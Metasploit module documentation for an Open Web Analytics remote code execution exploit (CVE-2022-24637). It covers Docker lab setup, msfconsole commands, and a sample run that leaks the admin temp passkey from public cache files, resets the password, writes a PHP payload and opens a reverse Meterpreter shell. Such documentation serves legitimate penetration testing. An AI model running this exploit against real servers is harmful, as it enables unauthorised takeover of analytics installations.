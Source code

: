 ## Vulnerable Application

Open Web Analytics (OWA) before 1.7.4 allows an unauthenticated
remote attacker to obtain sensitive user information, which can be
used to gain admin privileges by leveraging cache hashes. This occurs
because files generated with '<?php (instead of the intended "<?php sequence) aren't
handled by the PHP interpreter.

## Verification Steps

1. Start a vulnerable instance of OWA using docker
    - Download https://github.com/Pflegusch/CVE-2022-24637/blob/main/deployment/docker-compose.yml
    - Start the containers: `docker compose up -d`
    - Open http://127.0.0.1:80/
    - Follow installation steps using the envs from the `docker-compose.yml` file
        - Public URL: `http://127.0.0.1/`
        - Database Host (`docker inspect <db-container>` and get `IPAddress`, e.g `172.22.0.2`)
        - Database Port: `3306`
        - Database Name: `owa`
        - Database User: `owa`
        - Database Password: `Demo12+#`
        - Continue
        - Site Domain: `http://127.0.0.1`
        - Admin name: `admin`
        - E-Mail: `admin@admin.com`
        - Password: `Demo12+#`
        - Continue

2. Start `msfconsole`
3. `use exploit/multi/http/open_web_analytics_rce`
4. `set RHOSTS 127.0.0.1`
5. `set RPORT 80`
6. `set SSL false`
7. `set LHOST 172.22.0.1` -> this needs to be bridge IP that got created with the `docker compose up -d` command
8. `check`
9. `run`

## Options
### Password

When exploiting the target, the password of the attacked user will be overwritten with this password.

### Username

The user that will be targeted with this exploit.

## Advanced Options
### SearchLimit

The exploit works by retrieving a `temp_passkey` value from a cache file that gets created for each user when trying to login with it.
Since the `/owa-data/caches/` directory is publicly accessible, we can retrieve these cache files. The exact path for the cache files
depends on the `user_id` and can get calculated with that. This option defines how many calculated paths, starting from 0, should be
checked for cache files with the `temp_passkey` value in it.

## Scenarios
### Version 1.7.3 using docker deployment from
```
msf6 exploit(multi/http/open_web_analytics_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/open_web_analytics_rce) > set LHOST 172.22.0.1
LHOST => 172.22.0.1
msf6 exploit(multi/http/open_web_analytics_rce) > run

[*] Started reverse TCP handler on 172.22.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Open Web Analytics 1.7.3 is vulnerable
[+] Connected to http://127.0.0.1/ successfully!
[*] Attempting to find cache of 'admin' user
[+] Found temporary password for user 'admin': 85038e7e9f541ae4c4939d3044e628a5
[+] Changed the password of 'admin' to 'pwned'
[+] Logged in as admin user
[*] Creating log file
[+] Wrote payload to file
[*] Sending stage (39927 bytes) to 172.22.0.3
[+] Deleted QY0yivK4.php
[*] Meterpreter session 1 opened (172.22.0.1:4444 -> 172.22.0.3:55434) at 2023-03-15 01:28:54 +0100
[+] Triggering payload! Check your listener!

meterpreter > pwd
/var/www/html/owa-data/caches
meterpreter > getuid
Server username: www-data
meterpreter >
```

